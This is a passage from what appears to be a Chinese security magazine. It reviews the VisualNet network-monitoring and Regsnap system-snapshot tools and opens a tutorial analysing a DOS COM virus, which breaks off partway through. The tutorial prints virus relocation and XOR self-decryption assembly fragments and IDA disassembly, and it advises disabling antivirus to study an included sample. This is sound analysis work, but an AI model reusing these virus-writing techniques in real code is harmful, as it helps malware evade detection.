
图 5

图 5 是在网管平台上嵌入微软终端服务客户端的示范（是不是很方便啊？）。

你可以根据设备的分类、地理位置、项目分组、部分分类、机构分类以及业务情况等自己定义视图，在不同的视图中可以随意增加设备节点，可以说视图形成了具有一定意义的设备的一个集合。VisualNet 中通过设备以及接口同用户的关联，实现了网管平台上的资产管理和用户管理，不管是在企业还是在 IDC 都可以灵活地实现这一功能。VisualNet 既可以全局地配置对设备的监视方式，也可以对单个设备进行单独的配置，可以实现对任意设备的设备状态、服务端口状态、接口状态的灵活监视。值得一提的是，VisualNet 提出了设备后台监视的优化策略，改变了原来盲目的定时的发送大量包来检测设备状态的方式。VisualNet 将系统低层产生的种种网络状态的变化通过灵活的事件定义呈现出来，可以根据低层网络设备的分类、型号、IP 以及触发事件的类型来自定义事件的名字、级别，以及配置相应的报警方式，真正实现针对设备一级的事件灵活配置（图 6）。


图 6

3. 报警方式是事件的表达方式，VisualNet 可以根据所配置的各个事件灵活地提供声音、节点颜色变化、邮件、外部程序、WinPop，以及短消息等多种报警方式，准确无误地将事件呈现出来。事件浏览器使您可以方便地查看任意设备在任意时间段内所发生的事件信息（图 7）。


图 7

对管理操作、管理事件、故障事件进行分门别类的记录，并要求管理人员对所发生的各种事件进行确认。VisualNet 还提供了强大、灵活的日志库管理功能。网管日志是分析网络安全性能的重要依据，是对网络管理进行安全审计的关键数据。在网络性能管理上 VisualNet 提供了对设备性能的监视，包括设备的时延、丢包率、带宽检测、CPU 利用率、内存利用率以及磁盘空间利用率等多种信息，使管理员能直观地了解设备当前的运行情况，同时可以为设备配置性能参数阈值，以配合事件管理器产生相应的事件。设备实时监视分为设备时延监视和可达该设备的带宽监视。对接口的流量监视主要体现在交换机、路由器等网络设备，网管员可以在设备接口视图中直观地看到设备接口的输入、输出流量和使用率并为其配置报警阈值。接口性能管理配合报表系统可以产生接口流量报表。通过该方式可以直观地发现病毒风暴以及异常黑客攻击、高带宽占用等情况（图 8）。


图 8

4. 值得大家注意的是，该软件可以实时监测接口的输入和输出流量，以及相应的输入和输出带宽利用率，轻松实现对网络流量的监视以及对网络故障的侦测和判定。

VisualNet 可以监测运行系统本身的运行情况，包括网络状况、CPU 使用率、内存使用率等，以此来调整自身的运行参数，确保稳定运行。

除上面我给大家介绍的功能之外，VisualNet 提供了对网络安全的监护和对常见网络安全攻击的检测，包括了原 ARPKiller 改编的 AntiSniffer（检测局域网内哪些机器开启了 Sniffer）、扫描监视、常见漏洞扫描等工具。VisualNet 提供的实时监测和事件浏览器对网络的运行情况提供了重要的安全依据，通过对实时数据流量和事件浏览器的报警，有利于我们对网络安全做出必要的安全防范。VisualNet 是我用过的同类软件中做得比较好的一款，不敢独享，立即献上。如果你发现还有更好的工具可以在黑防上和大家一起交流，就让我们共同进步！

蝴蝶：编辑部里的大编、小编都看我吃鸡腿眼馋，所以以 wtf 为首的“鸡腿别动队”正式成立，后面刘流、脚本小子等一干人等积极加入！每天就绕着我的包转，可是小妹也不是好惹的！哼！我抱着包上班！他们看一计不成，又生一计：给我电脑种后门！天啊！大家没看见那个阵势——网络上最流行的、功能最强大的、他们自己写的、内核级的后门全来了！我一离开电脑就不安全，后来小妹的玉照还给他们弄去了！55555……，不过幸好 icefire 是个“硕果仅存”的好人，他给小妹推荐了个监视系统的工具，嘿嘿，这下我不再怕“鸡腿别动队”了！

- 适合读者：普通网络用户
- 前置知识：网络安全常识、系统注册表常识

## Regsnap，完全监控你的系统

文/图 netff

作为电脑使用者，在安装完一个软件之后，有时需要知道该软件的文件都存放在哪里，有没有将文件存放在系统目录，以及软件修改了注册表中的键项等等。而这些相关的信息软件又没有提供说明，这让管理员非常的头痛。

作为一个网络管理员，需要及时知道服务器最近有没有遭受黑客的入侵，是否有黑客工具在系统当中存放。而现在恶意程序的隐藏技术非常高明，常常让众多管理员疲于奔命仍应付不过来。这时候，如果管理员有一个工具能够帮助管理员查询当前的系统跟以前的系统发生了哪些变化以及了解具体的变动内容的话，就可以大大提升管理员的工作效率、减轻管理员的负担。鉴于这些原因，在这里向大家推荐一个优秀的系统监视工具——Regsnap。

Regsnap 可以非常详细地向你报告注册表及其他与系统有关目录文件的变化情况。利用 Regsnap 的比较功能可以向你报告注册表中被修改了哪些键以及修改前、后的值各是多少。另外，Regsnap 除了可以向你报告注册表的变动内容外，还可以报告系统的其他情况：如系统目录和系统的 system 子目录下文件的变化情况，包括删除、替换、增加了一些文件；Windows 的系统配置文件 win.ini 和 system.ini 的变化情况，包括删除、修改和增加了哪些内容；自动批处理文件 autoexec.bat 是否被修改过。该软件还可以在需要的时候方便地恢复注册表，可以直接调用 regedit 程序查看或修改注册表。

下面我们具体来看看怎么使用它：Regsnap 在安装完成后默认会自动启动程序，并询问用户要做什么（图 1）。


图 1

由于我们是第一次使用 Regsnap，所以现在还没有可以做比较的“快照”。在这里建议对当前的机器新建一个快照，“拍”下当前机器注册表及系统目录的状况，以便日后管理、维护时作为依据、比较时需要。所以在图 1 中按“新建快照”按钮创建一个新的快照，打开一个如图 2 的对话框：


图 2

由于我们是第一次使用，所以建议对系统做一次全面的拍照。Regsnap 提供的拍照选项较为全面，一般情况下按默认选中的选项即可。当然，如果你觉得监视一些关于 DLL 文件的版本信息会更好的话，也可以选上“保存 DLL 版本信息”前面的框。如果需要对这次拍的照片进行备注，如备注说明是第一次拍照等，可以在“你也可以为此快照输入一个注释”下面的空白框输入要做备注的内容。现在按“确定”按钮就开始拍照，如图 3 所示。


图 3

Regsnap 在拍照的过程中会显示当前工作的百分比及捕获的项数。在捕获完成后 Regsnap 会给出一个简单的报告，报告捕获的总结果，如图 4：


图 4

按“确定”按钮返回程序的主界面，按 Regsnap 工具栏左边第三个按钮将刚拍下来的快照保存起来。

在过一段时间之后，我们在系统中安装了一些软件并复制一些文件到系统目录中，现在我们来看看 Regsnap 是否能够如刚才所说的那样能够将注册表及系统目录的变化告诉我们，现在重复上面提到的步骤再给系统拍照，拍照后的结果如图 5 所示。


图 5

从图 4 跟图 5 显示的结果来看，我们在新拍的照片中比原来拍的照片在 c:\winnt\system32 增加了不少文件，注册表也发生了变化。按“确定”按钮后，再保存结果。

现在我们来将第一次拍照的结果跟刚拍照的结果做一次比较，看看注册表都增加、修改了哪些键项及系统目录都增加了哪些文件。按 Regsnap 工具栏的左六按钮，这时弹出一个比较快照的对话框，如图 6 所示。


图 6

如果之前系统有拍过照且保存在本地机器，Regsnap 会自动获取以前保存的快照文件并出现在比较快照所要进行比较的文件列表中。如果该快照文件不是我们需要的，我们也可以根据需要重新选择要做比较的快照文件。然后按“确定”按钮就可以开始比较了。但有些时候我们只需要对注册表中做一部分的比较时，可以按“高级选项”按钮来排除掉一些不必要的子键进行比较。现在我们先来看看这个功能，按“高级选项”按钮弹出一个高级选项对话框。在这里我们只需要将一些不需要比较的子键列入到该列表中，Regsnap 在开始比较的时候就会自动跳过这些指定的子键。现在按“添加”按钮添加不需要做比较的子键，然后在弹出的对话框中输入不需要进行比较的子键，如图 7 所示。


图 7

输入完成后按“确定”按钮，回到高级选项对话框。如果想继续排除其他不需要比较的子键，再按“添加”按钮继续添加即可。添加完成后如图 8 所示。


图 8

按“确定”按钮回到比较快照的界面，在“报告选项”中，我们可以选择将这两个要进行比较的文件的比较结果只显示修改过的注册表键名还是显示修改前跟修改后的键名及键值。如果选择后者则需要两个快照都是带键值保存的。在“输入文件名”处可以输入比较结果要保存的文件名，以及在输出文件格式中可以选是以纯文本的格式输出还是以 HTML 文件的格式输出，非常方便、简单。现在按“确定”按钮开始进行比较。比较完成后 Regsnap 会自动生成一张比较结果的报表，显示结果如图 9 所示。

从图 8 可以非常清楚地看到 Regsnap 列出了两个快照比较后的不同地方，有注册表被删除、修改及增加的数量及修改的键项名称等等，还有系统目录增加、修改、删除的文件名称也都一一被列了出来，而且非常清楚、明了。我们还可以清楚地看到 system 目录中增加了多少个文件以及所增加的文件名称都能够一目了然，非常清楚、明白地了解当前系统所发生的变化。呵呵，如果管理员在系统刚安装配置完成时给系统拍一次照并保存起来，在以后的维护过程中需要检查系统是否存在后门或其他情况时，再利用 Regsnap 给系统拍照，再跟原来保存的文件做比较，不想发现问题都难。

Regsnap 除了上面提到的功能外，还可以查看当前机器的名称及登录的用户名，只需按“工具”菜单下的“显示本地 PC 名称”选项，就显示当前机器的名称及登录的用户名。按“工具”菜单下的“注册表编辑器”就会打开系统的注册表编辑器，跟在“运行”菜单下输入 regedit 打开的注册表编辑器完全一样。

好了，关于 Regsnap 的介绍就到这里，Regsnap 的确是一个非常不错的注册表、系统目录监视工具，如果管理员能够对该工具加以利用的话，维护系统将不再是一件难事；而对程序开发人员来说，Regsnap 也是一个非常好用的好工具、好帮手。

> ### Tips: IDS (入侵探测系统)
>
> IDS 是 Intrusion Detection System (入侵探测系统) 的缩写，超过单纯的连接控制功能，使用入侵模式数据库和 Expert System，实时监视网络或系统的使用，探测入侵行为的保安系统。IDS 根据异常行为和使用计算机资源情况分析，攻击模式匹配等方法，检测可疑的行为，在最短的时间内发现可能的入侵者，并做实时处理的系统。
>
 IDS 按其监视的对象可分为基于网络的 IDS 和基于主机的 IDS。基于主机的 IDS 安装在系统内部，监视一个系统内部用户的活动，检测黑客攻击试图的系统。基于网络的 IDS 通过捕捉网络中流过的数据包，进行分析并检测入侵行为。基于主机的 IDS 需要在每一个需要监视的系统都要安装，而基于网络的 IDS 只需要在想要监视的网络段安装一个就可以实现。
>
> 现在 IDS 可以很方便地在普通服务器上通过很多入侵检测程序来实现，比如 snort 等程序，它可以比较好地监控你的系统，并在受到攻击或者是入侵的时候给管理员提供第一手详细资料！

### 朝花夕拾 —— DOS 下 COM 病毒分析思路

socket：互联网时代病毒危害网络的情况时有发生，病毒以其隐蔽性强、破坏力度大、传播速度快等特点备受关注，很多朋友觉得病毒技术是个非常神秘的技术，也反映对病毒技术很感兴趣。其实在网络上已经流传了相当数量的经典病毒编写教程，但在反病毒，尤其是技术层面的病毒分析上，这类的技术文章比较缺乏。有感于此，本刊特约了一篇有关怎样进行 DOS 病毒分析的文章，选择的是比较经典的 DOS 下的 COM 病毒，里面很多思想都是非常值得我们借鉴和学习的，希望能给大家带来帮助（本文涉及到的病毒样本 sample.vir 已经收录到光盘中，请大家在研究的时候关闭防病毒软件）。

- 适合对象：病毒爱好者
- 前提知识：汇编语言知识，病毒常识

文 / 图 吟游诗人 [Nuke Group]

也许有人会说，DOS 已经正式明日黄花了，怎么还讨论 DOS 病毒呢？这不是很落后吗？其实不然。病毒技术的鼎盛发展时期是在 DOS 年代——Poly Engine、Metamorphism 等技术都是在 DOS 病毒中发展起来的，现在到了 Windows 时代，反而流传的是一些木马、蠕虫等没有多少技术含量的病毒，虽然不乏精品，但同 DOS 时代的病毒相比，经典可就算不上了（个人观点，不免偏激）。请记住：计算机技术从来都不会是一跃千里的，都有个循序渐进的发展过程，现在的 PE 病毒技术，大部分都是来源于古老的 DOS 年代。我们从 DOS 年代的 COM 病毒开始学习，有助于我们直接抓住问题的本质。好了，不多说废话了，让我们开始！

### 几个基本概念

#### 1. COM 的文件格式

COM 文件的格式——没有格式！它是直接加载到内存中的一个映像，从第一条语句开始，就是它的代码和数据，没有什么复杂的格式在捣乱：）方便、直接、简洁——这也是为什么我们选用 COM 病毒作为开始的原因。

#### 2. 病毒的重定位

在几乎每个感染型的病毒的开头都有这样的语句：

```assembly
call nStart
nStart:
    pop bp
    sub bp, offset nStart
```

这些语句是用来干嘛的呢？好像是吃饱了饭没事干哦……其实不然。让我们仔细思考一下。当正常的 COM 程序执行时，它的基址一般是 100h 的，这个地址会由操作系统为你重定位，因此总是能保证程序被成功地地装载运行。但是，如果病毒在宿主中插入了一段新的代码，假设它要从 200h 处开始执行，那么事情就没有那么简单了。因为宿主程序并没有预料到这段代码的存在，而操作系统也不可能。为你修正这个偏移。因此我们就要自己进行重定位操作。上面的语句就是取得病毒在宿主中的实际偏移地址。Call指令实际上是push和jmp的组合。当call nStart时，实际上是把call nStart的下一条指令（也就是pop ebp）的地址压入堆栈然后jmp到nStart，由于之前已经把pop bp的地址压入了堆栈，所以当真正执行到pop bp这条指令的时候，实际上就是把pop bp这条指令的地址放到了bp中。这样就得到了当前病毒代码的真正的偏移地址。这也是病毒中常用的手法，几乎无一例外。

### 3. 病毒的加密与解密

病毒为了防止被AVer（杀毒软件）轻易地杀死，它肯定要对自身进行一定程度的加密，以加大AVer分析的难度。通常，加密病毒由解密头和加密的代码组成。加密病毒运行时，先执行的是解密代码，对加密代码解密，然后执行刚解密的代码，也就是实现传播的主体代码。下面来看看常见的采用xor方式加密的病毒的框架：

```asm
    mov cx, Virus_Size
    mov di, offset Encrypt_Start
Encrypt_Loop:
    xor byte ptr[di], key
    inc di
    loop Encrypt_Loop
Encrypt_Start:
; 加密后的代码
; ...
```

可以看出，经过解密后，原先被加密的病毒体会被还原成正常的可以执行的代码，这样，病毒就可以继续往下执行了。

## 实例剖析

准备工作做得差不多了，让我们来实际演练一下吧！下面的分析有点枯燥无味，请各位耐心点哦！

### 1. 病毒的入口

用IDA Pro打开病毒样本文件sample.vir，经过反汇编后，按下“C”，让IDA对反汇编结果进行分析，可以看到：

```asm
seg000:0100 E9 31 08         jmp     loc_934
seg000:0100                 ;
seg000:0103 E8              db 0E8h ; ?
seg000:0104 41              db  41h ; A
seg000:0105 00              db    0 ;
seg000:0106 47              db  47h ; G
seg000:0107 6F              db  6Fh ; o
```

第一条指令就是跳到病毒体开始的地方，好，让我们双击“loc_934”，IDA会自动跳到该处：

```asm
seg000:0934 E8 00 00         call    $+3
seg000:0937 5D               pop     bp
seg000:0938 81 ED 08 01      sub     bp, 108h
seg000:093C 8D B6 28 01      lea     si, [bp+128h]
seg000:0940 E8 04 00         call    sub_947
seg000:0943 EB 12            jmp     short loc_957
```

啊？怎么那么眼熟呢？请看，在地址0934h的指令是call $+3，而0937h的指令是pop bp，再接着是一条sub bp, 108h，这不是前面提到的很经典的病毒重定位语句吗？呵呵。在这里，由于call $+3的作用，导致pop bp之后，bp的值是0937h，然后bp再减去108h，也就是说，bp最后的值是082fh。

### 2. 病毒的自身解密流程

我们看到，在0940h处是一个call，嗯！有古怪！让我们双击sub_947，跟进去：

```asm
seg000:0945 3B              db  3Bh ; ;
seg000:0946 00              db    0 ;
